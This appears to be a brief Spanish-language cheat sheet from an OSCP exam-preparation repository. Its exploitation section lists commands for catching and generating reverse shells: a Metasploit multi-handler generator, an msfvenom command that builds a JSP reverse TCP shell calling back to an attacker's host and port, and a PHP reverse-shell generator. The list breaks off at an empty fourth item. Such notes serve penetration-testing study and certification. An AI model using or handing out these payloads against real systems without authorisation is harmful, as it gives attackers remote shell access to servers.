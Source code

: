 # Seccion de explotacion

## Shell reversa

Previamente `export PAYLOAD=<nombre-payload>; export LHOST=<IP-local>; export LPORT=<puerto local>`

### Multi Handler
1) Generar un Multi Handler automatico --> `$OSCP/explotacion/multi-handler/generator.sh $PAYLOAD $LHOST $LPORT`

### Shell reversas

2) JSP  --> `msfvenom -p java/jsp_shell_reverse_tcp LHOST=$LHOST LPORT=$LPORT -f raw > shell.jsp`

3) PHP  --> `$OSCP/explotacion/reverse-shells/php-reverse/generator.sh $LHOST $LPORT`

4) 
